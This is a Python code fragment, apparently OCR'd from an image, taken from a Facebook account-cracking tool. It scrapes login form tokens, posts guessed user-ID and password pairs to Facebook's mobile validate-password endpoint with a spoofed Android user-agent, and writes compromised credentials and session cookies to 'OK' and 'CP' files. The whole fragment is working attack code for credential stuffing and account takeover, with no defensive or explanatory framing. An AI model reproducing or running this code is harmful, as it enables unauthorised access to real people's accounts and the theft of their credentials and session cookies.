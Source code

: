 			p = ses.get('https://m.facebook.com/login.php?skip_api_login=1&api_key=124024574287414&kid_directed_site=0&app_id=124024574287414&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fdialog%2Foauth%3Fclient_id%3D124024574287414%26redirect_uri%3Dhttps%253A%252F%252Fwww.instagram.com%252Faccounts%252Fsignup%252F%26state%3D%257B%2522fbLoginKey%2522%253A%25221ri5o69ef67k6d9s38l3tx1zz1hbv015tb7cdwb6deqa4u2svv%2522%252C%2522fbLoginReturnURL%2522%253A%2522%252Ffxcal%252Fdisclosure%252F%253Fnext%253D%25252F%2522%257D%26scope%3Demail%26response_type%3Dcode%252Cgranted_scopes%26locale%3Did_ID%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Db97ff6fb-29af-412a-bb00-83c94a1003f1%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fwww.instagram.com%2Faccounts%2Fsignup%2F%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%2522fbLoginKey%2522%253A%25221ri5o69ef67k6d9s38l3tx1zz1hbv015tb7cdwb6deqa4u2svv%2522%252C%2522fbLoginReturnURL%2522%253A%2522%252Ffxcal%252Fdisclosure%252F%253Fnext%253D%25252F%2522%257D%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr') 
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://m.facebook.com/v2.3/dialog/oauth?app_id=124024574287414&cbt=1651658200978&e2e=%7B%22init%22%3A1651658200978%7D&sso=chrome_custom_tab&scope=email&state=%7B%220_auth_logger_id%22%3A%2268f15bae-23f8-463c-8660-5cf1226d97f6%22%2C%227_challenge%22%3A%22dahj28hqtietmhrgprpp%22%2C%223_method%22%3A%22custom_tab%22%7D&redirect_uri=fbconnect%3A%2F%2Fcct.com.instathunder.app&response_type=token%2Csigned_request%2Cgraph_domain%2Cgranted_scopes&return_scopes=true&ret=login&fbapp_pres=0&logger_id=68f15bae-23f8-463c-8660-5cf1226d97f6&tp=unspecified","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={'Host': 'm.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://m.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://m.facebook.com/login.php?skip_api_login=1&api_key=124024574287414&kid_directed_site=0&app_id=124024574287414&signed_next=1&next=https%3A%2F%2Fm.facebook.com%2Fdialog%2Foauth%3Fclient_id%3D124024574287414%26redirect_uri%3Dhttps%253A%252F%252Fwww.instagram.com%252Faccounts%252Fsignup%252F%26state%3D%257B%2522fbLoginKey%2522%253A%25221ri5o69ef67k6d9s38l3tx1zz1hbv015tb7cdwb6deqa4u2svv%2522%252C%2522fbLoginReturnURL%2522%253A%2522%252Ffxcal%252Fdisclosure%252F%253Fnext%253D%25252F%2522%257D%26scope%3Demail%26response_type%3Dcode%252Cgranted_scopes%26locale%3Did_ID%26ret%3Dlogin%26fbapp_pres%3D0%26logger_id%3Db97ff6fb-29af-412a-bb00-83c94a1003f1%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fwww.instagram.com%2Faccounts%2Fsignup%2F%3Ferror%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied%26state%3D%257B%2522fbLoginKey%2522%253A%25221ri5o69ef67k6d9s38l3tx1zz1hbv015tb7cdwb6deqa4u2svv%2522%252C%2522fbLoginReturnURL%2522%253A%2522%252Ffxcal%252Fdisclosure%252F%253Fnext%253D%25252F%2522%257D%23_%3D_&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
			po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
			if "checkpoint" in po.cookies.get_dict().keys():
				print(f'\r---> {K}{idf}|{pw}\n{ua}{N}')     
				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
				akun.append(idf+'|'+pw)
				cp+=1
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				ok+=1
				coki=po.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
				print(f'\r{H}└─ {idf}|{pw}\n{kuki}{N}')
				open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n')
				cek_apk(session,coki)
				break
				